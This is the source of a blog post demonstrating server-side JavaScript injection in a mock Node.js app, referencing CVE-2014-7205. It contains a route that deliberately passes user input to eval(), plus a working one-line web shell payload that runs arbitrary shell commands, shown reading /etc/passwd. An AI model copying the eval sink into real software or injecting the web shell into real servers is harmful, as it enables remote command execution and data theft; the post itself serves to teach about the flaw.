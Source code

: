 ```yaml
---
layout: post
title:  "SSJS Web Shell Injection"
date:   2015-01-31 12:02:03
categories: node
---
```


I've recently become interested in real world examples of vulnerabilities in Node.js applications, which allow `Server Side Javascript Injection`. One advisory I came across was <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7205">CVE-2014-7205</a> discovered by Jarda Kotěšovec in a <a href="https://github.com/hapijs/bassmaster/commit/b751602d8cb7194ee62a61e085069679525138c4">Basmaster plugin</a> which allows arbitrary Javascript injection.

I decided to mock up a simple example of user input passed to an eval() execution sink, to demonstrate an injection of a simple web shell into the server. This web shell will only exist within the current node.js process, and will not be written to disk.

This demo application will only allow a single user input selection to keep things simple:
![Demo app](/assets/SSJS_ws1.png)

Vulnerable code (user input passed to an eval execution sink):
{% highlight javascript %}
router.post('/demo1', function(req, res) {
  var year = eval("year = (" + req.body.year + ")");
  var date = new Date();

  var futureAge = 2050 - year;

  res.render('demo1',
    {
      title: 'Future Age',
      output: futureAge
    });
});
{% endhighlight %}

In this example res.write('SSJS Injection') is injected, and the server will return that string in the page response:
![Demo app](/assets/SSJS_ws2.png)

So we can perform arbitrary SSJS injection on this location. What about injecting a web shell that will start up after 5 seconds, listening on TCP/8000?
{% highlight javascript %}
setTimeout(function() {
    require('http').createServer(function(req, res) {
        res.writeHead(200, {
            "Content-Type": "text/plain"
        });
        require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e, s, st) {
            res.end(s);
        });
    }).listen(8000);
}, 5000)
{% endhighlight %}

One line web shell:
{% highlight javascript %}
setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8000); }, 5000)
{% endhighlight %}

Because we are inserting code which will be eval'd by the application, the web shell will not be written to disk, and execution will be performed from the existing node process. 

Injection of the web shell (application continues to respond normally):
![Demo app](/assets/SSJS_ws3.png)

Execution of `cat /etc/passwd` using the web shell:
![Demo app](/assets/SSJS_ws4.png)

Execution of `ls -la /etc`:
![Demo app](/assets/SSJS_ws5.png)

This is a really simple example of an application with a SSJS injection vulnerability. Another thing to note is that tools to identify web application vulnerabilities may not have support to detect this vulnerability. At the time of this writing, Burp Suite v1.6.10 did not identify a SSJS injection vulnerability in the demo application.

- [s1gnalCha0s](https://craigarendt.com)
